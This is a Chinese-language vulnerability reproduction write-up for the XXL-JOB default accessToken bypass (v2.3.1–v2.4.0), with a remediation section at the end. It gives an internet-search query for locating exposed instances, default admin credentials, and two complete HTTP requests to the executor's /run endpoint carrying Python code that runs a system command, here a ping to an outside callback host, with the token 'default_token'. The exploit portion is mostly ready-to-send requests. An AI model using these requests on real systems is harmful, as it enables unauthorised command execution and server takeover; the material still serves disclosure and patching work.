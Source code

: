 # XXL-JOB 默认 accessToken 身份绕过漏洞

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中，如果没有修改默认值，攻击者可绕过认证调用 executor，执行任意命令，从而获取服务器权限。

## 披露时间

```
2023-11-01
```

## 漏洞影响

```
v2.3.1 <= XXL-JOB <= v2.4.0
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

本地搭建 XXL-JOB v2.3.1，源码 https://github.com/xuxueli/xxl-job/archive/refs/tags/2.3.1.zip

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。

默认口令 `admin/123456` 登录后台：

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112174933070.png)

## 漏洞复现

从 XXL-JOB v2.3.1 版本开始，在 application.properties 为 accessToken 增加了默认值：

```
xxl.job.accessToken=default_token
```

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112151222555.png)

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112173432704.png)

在实际使用中，如果没有修改默认值，攻击者可绕过认证调用 executor，执行任意命令，从而获取服务器权限。

首先，我们不带 `XXL-JOB-ACCESS-TOKEN`，对 executor 未授权访问漏洞进行利用，探测目标是否出网。此处运行模式为 GLUE 模式 (Python)，其他方式均可，主要取决于目标环境。

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 407

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_PYTHON",
  "glueSource": "import os\nos.system('ping 0e6ee0e0f3.ipv6.1433.eu.org.')",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

HTTP Status Code 500，报错：

```
{"code":500,"msg":"The access token is wrong."}
```

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112175042454.png)

然后，我们带上 `XXL-JOB-ACCESS-TOKEN`，再次发送数据包：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 407

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_PYTHON",
  "glueSource": "import os\nos.system('ping d02caeb35f.ipv6.1433.eu.org.')",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

HTTP Status Code 200，成功：

![](images/XXL-JOB%20默认%20accessToken%20身份绕过漏洞/image-20241112180203573.png)

## 漏洞修复

修改调度中心和执行器配置项 `xxl.job.accessToken` 的默认值，注意要设置相同的值。

参考 [官方文档](https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89) 中 5.10 章节关于访问令牌（AccessToken）的相关描述：

- 为提升系统安全性，调度中心和执行器进行安全性校验，双方 AccessToken 匹配才允许通讯；
- 调度中心和执行器，可通过配置项 “xxl.job.accessToken” 进行 AccessToken 的设置。
- 调度中心和执行器，如果需要正常通讯，只有两种设置；
	- 设置一：调度中心和执行器，均不设置 AccessToken；关闭安全性校验；
	- 设置二：调度中心和执行器，设置了相同的 AccessToken；
